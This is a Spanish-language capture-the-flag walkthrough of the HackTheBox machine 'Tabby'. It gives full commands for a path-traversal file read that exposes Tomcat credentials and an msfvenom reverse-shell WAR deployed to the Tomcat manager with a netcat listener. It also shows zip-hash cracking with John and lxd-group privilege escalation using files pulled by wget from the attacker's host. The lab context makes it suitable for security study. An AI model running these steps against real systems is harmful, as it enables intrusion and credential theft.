 ## Summary

Tags: #Linux #HTTP #SSH #Tomcat #LFI #DirectoryPathTraversal #Msfvenom #Base64 #John #GruposExpeciales #Lxd

- IP -> 10.10.10.194
- Ports -> TCP (80, 22, 8080), UDP (idk)
- OS ->  Linux
- Services & Applications
    - 22 -> OpenSSH 8.2p1 Ubuntu 4
    - 80 -> Apache httpd 2.4.41
    - 8080 -> Apache Tomcat 

## Launchpad

-   **Launchpad**: [https://launchpad.net/ubuntu](https://launchpad.net/ubuntu)

22 ->    OpenSSH 8.2p1 Ubuntu 4 -> Focal
80 ->    Apache httpd 2.4.41 -> Focal 

## Recon

```bash
❯ ping -c 1 ❮IP❯                             # Para saber si la maquina esta activa o no (ttl=64 Linux, ttl=128 Windows)
```

```bash 
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn ❮Target IP❯  -oG allPorts       # Escaneo en la Capa 4 del modelo OSI
```

```bash
❯ nmap -sCV -p22,80,8080 ❮Target IP❯ -oN targeted
```

```bash
❯ nmap --script http-enum -p80 ❮Target IP❯ -oN WebScan #  http-enum = Aplica Fuzing a HTTP, utiliza un diccionario de 1000 rutas y ver si hay algunas rutas existen
```

```bash
❯ whatweb ❮http://IP❯                  # Nos dara una breve descripcion del gestor de contenidos del puerto 80
```

```bash
❯ whatweb ❮http://IP:PORT❯             # Nos dara una breve descripcion del gestor de contenidos por un puerto especifico
```

Ahora nos disponemos a ver en la web por ambos puertos, el 80 y el 8080.

* En el puerto 80 de la pagina encontramos dentro la web una pestaña llamada "NEWS" en donde no podemos ingresar ya que esta haciendo virtual hosting. Por lo que debemos de agregar el dominio a nuestro **/etc/hosts** 

Dentro de NEWS observamos lo siguiente en la url:
```python
❯ megahosting.htb/news.php?file=statement

# Ahi podemos observar que hay un '?file=' que nos puede llevar a un LFI (Local File Inclusion), por lo que probamos lo siguiente en la URL

❯ megahosting.htb/news.php?file=/../../../../../etc/passwd       # Hacemos un Directory Path Traversal para ver el /etc/host de la maquina victima, si se ve raro el output hacemos 'Ctrl + u'

# Podemos observar dos usuarios, el primero es 'root' y el segundo 'ash', por lo que nos disponemos a ver si podemos ver mas cosas como:
❯ megahosting.htb/news.php?file=/../../../../../home/ash/user.txt
❯ megahosting.htb/news.php?file=/../../../../../home/ash/.ssh/id_rsa
❯ megahosting.htb/news.php?file=/../../../../../home/ash/.ssh/authorized_keys
❯ megahosting.htb/news.php?file=/../../../../../home/ash/.ssh/id_rsa.pub
# Pero no podemos mirar nada de los comandos anteriores 
```

* Miramos que en el puerto 8080 encontramos un Tomcat y nos muestra donde nos da un enlace a **manager webapp**, nos pide un usuario y una passwd. Colocamos las clásicas **admin:admin**, nos dará un error pero nos redireccionara a una nueva pagina.
	
	* Encontramos una ruta: **/etc/tomcat9/tomcat-user.xml**

Miramos esa ruta por el puerto 80, ya que podemos hacer usar el **Directory Path Traversal** y encontramos lo siguiente:
Como no nos muestra nada, nos disponemos a buscar en Google 'Tomcat User Common Path ' , ya que no siempre esa es la ruta de un Tomcat9, ahora encontramos esta nueva ruta: 
	**/usr/share/tomcat9/etc/tomcat-users.xml** 

Miramos esa ruta en la web por el puerto 80 con el **Directory Path Traversal** y encontramos:
	**User: tomcat | Passwd: $3cureP4s5w0rd123!**

Recordemos la ruta típica de Tomcat en la web para poder entrar es: **/manager/html** en donde nos pedirá una autenticación, y como ya tenemos el usuario y la passwd la colocamos en el panel y así lograremos entrar. Pero no sucede. 

Ahora vamos a Google y buscaremos '**Tomcat Exploit Variant**' 
* [Tomcat-Variant](https://www.certilience.fr/2019/03/tomcat-exploit-variant-host-manager/)
Ahí encontramos una imagen que nos dice como ir al panel de manager desde la web ( **/host-manager/html** ). Pero al momento de entrar observamos que no esta la opción para poder subir un archivo y así podernos crear una aplicación maliciosa. 

Ahora nos disponemos a mirar la ruta de las aplicaciones en Tomcat. 
```bash 
❯ curl -s -u 'tomcat:$3cureP4s5w0rd123!' -X GET 'http://10.10.10.194:8080/manager/text/list'         # Ruta para mirar las aplicaciones existentes en Tomcat, pero antes debemos de autenticarnos

	# u = Usuario:Passwd
```

Cuando miremos que no podemos instalar una aplicación desde la web en la parte de manager ( **/host-manager/html** ), lo podemos hacer desde consola de la siguiente manera con Msfvenom:
```bash 
❯ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=443 -f war -o reverse.war

	# p = Payload
	# LHOST = Local Host (IP Atacante)
	# LPORT = Local Port 'Atacante'
	# f = Formato
	# o = Exportar como 
```

Una vez obtenido el archivo. war que seria la 'aplicación' la podemos colocar en la siguiente ruta con curl
* [Tomcat-deploy-war](https://stackoverflow.com/questions/4432684/tomcat-manager-remote-deploy-script)

Esto se hará por el método POST.
```bash 
❯ curl -s -u 'tomcat:$3cureP4s5w0rd123!' "http://10.10.10.194:8080/manager/text/deploy?path=/reverse" --upload-file reverse.war
```

Nos ponemos en escucha
```bash
❯ nc -nlvp 443 
```

Para poder ejecutar la aplicación que subimos, debemos de ir a la web y colocar lo siguiente:
```python
http://10.10.10.194:8080/reverse                      # Colocaremos lo siguiente en la url de la web, reverse = Nombre de la app que subimos (archivo .war)
```

## User

Una vez dentro, hacemos tratamiento de la consola. 

```bash
❯ python3 -c ‘import pty;pty.spawn(“/bin/bash”)’         # Para remplazar el comando de 'Script' por si no lo acepta la consola

❯ Script /dev/null -c bash
❯ Ctrl + z
❯ stty raw -echo; fg
❯ reset xterm

# Despues cambiamos esto para poder hacer Ctrl+ l y Ctrl + c
❯ echo $SHELL                                            # Para ver la ruta de shell y ver que valor tiene **/usr/bin/nologin**
❯ export SHELL=bash o ❯ export SHELL=/bin/bash           # Hacemos que shell ahora valga bash
❯ export TERM=xterm                                      # Para poder hacer Ctrl +c y Ctrl + l (l=ele)

# Ahora para modificar las dimensiones de Vim/nano debemos hacer lo siguiente.
❯ stty size                                              # Miramos las dimensiones de la consola
❯ stty rows 51 columns 189                               # Modificamos las dimensiones de la consola Vim/Nano
```

```bash
❯ whoami                                     # Miramos el nombre del usuario que en este caso es tomcat
```

Debemos de buscar la manera de convertirnos en el usuario 'ash' aplicando un **User Pivoting**

```python
/var/www/html                  # Ruta donde se encuentra el servidor web montado, ahi encontramos un dir llamado 'files'
```

Dentro de 'files' encontraremos un archivo **16162020_backup.zip** el cual nos lo traeremos a nuestra maquina victima haciéndole un base64 para poderlo transferir.
```python 
❯ base64 16162020_backup.zip   # Codificamos el archivo .zip en base64 para poderlo copiar a nuestra maquina de atacante y ahi poder hacerle el unzip 
```

En nuestra maquina de atacante creamos un archivo y en el depositamos el resultado del comando anterior. 
Después decodificaremos el archivo ya que su contenido esta en base64. 
```bash
❯ cat data | base64 -d | sponge data.zip      # Decodificaremos el archivo que hemos creado, y con sponge colocaremos la decodificacion en el mismo archivo 
```

```python 
❯ unzip data.zip                              # Para unzipear el archivo 

# Pero nos pide una passwd
```

Para poder obtener la hash del archivo la crackearemos con John The Ripper y después de obtener el hash, se lo pasaremos para poder obtener la passwd.
```bash
❯ zip2john data.zip > hash                      # Para que nos devuelva el Hash y asi despues poderlo crackear, el resultado lo metemos dentro de un archivo llamado 'hash'

❯ john -w:/usr/share/wordlists/rockyou.txt hash # Usando jhon y el diccionario rockyou, romperemos el hash obtenido anteriormente

# Nos regresa como passwd = admin@it
```

Abrimos el archivo data.zip con la passwd obtenida. Nos extrae una carpeta **var** en la cual  obtenemos varios archivos, pero ninguno es relevante. 

Probamos la passwd obtenida en la maquina victima para ver si nos podemos cambiar al usuario ash.
```bash 
❯ su ash                                        # Cambiamos al usuario ash y le colocamos la passwd que hemos encontrado 
```

Ahora nos podemos meter a su directorio personal y así poder ver la primera flag 'user.txt'



## Root

Miramos si podemos ejecutar un comando por los privilegios en el Sudoers.
```bash
❯ sudo -l                                          # Ver que permisos tenemos en el sudoers (l=ele)

	# (ALL : ALL) ALL
	# (root) NOPASSWD: /usr/bin/find -> Puede ejecutar un comando sin necesidad de password
```

```bash
❯ id                                               # Para ver si estamos en un grupo especial

# Pertenecemos al grupo lxd, por lo que hacemos lo siguiente para poder hacer la escalada

	# lxd = Si estas en este grupo, puedes escalar por medio de monturas, utilizando el exploit 
		
		❯ searchsploit lxd
		❯ searchsploit -m 46978.sh 
		# Descargas la imagen de Alpine, la url esta dentro del script 
		❯ bash build-alpine    # Aclarar que lo debemos de hacer en la maquina de atacante porque nos pide ser root y despues transferimos a la victima lo sig: (privesc.sh, alpine-v3.17-x86_64.tar.gz)
```

Nos lo transferimos con un servidor por el puerto 80.
```bash 
❯ python3 -m htt.server 80              # Nos creamos un servidor para tranferir 
```


En la maquina victima nos dirigimos al directorio **/tmp/ o /dev/shm/** ya que cuenta con privilegio de lectura y escritura. Una vez dentro de ese dir, hacemos lo siguiente:
```bash 
❯ wget http://10.10.14.5/lxd_privesc.sh
❯ wget http://10.10.14.5/alpine-v3.17-x86_64.tar.gz
```

En la maquina victima ejecutamos lo siguiente:
```bash
❯ ./privesc.sh -f alpine-v3.17-x86_64.tar.gz   # Por defecto nos creara un contenedor y nos dara una consola como root dentro del contenedor que llevara la raiz de la maquina victima, la raiz del maquina victima la encontraremo en el dir /mnt/root/
❯ chmod u+s bash               # Dentro del contenedor podemos asignar SUID a la bash y este sera reflejada a la bash legitima
❯ ls -l /bin/bash              # Listar los permisos de la bash
❯ bash -p                      # Solicitamos la bash con privilegio temporal fuera del contenedor, ya que es una bash SUID
```

Antes de ejecutar lo anterior ver que lxd exista en la maquina victima, si no esta es porque tal vez el Path sea muy pequeño, por lo que exportaremos el Path de nuestra maquina de atacante. 
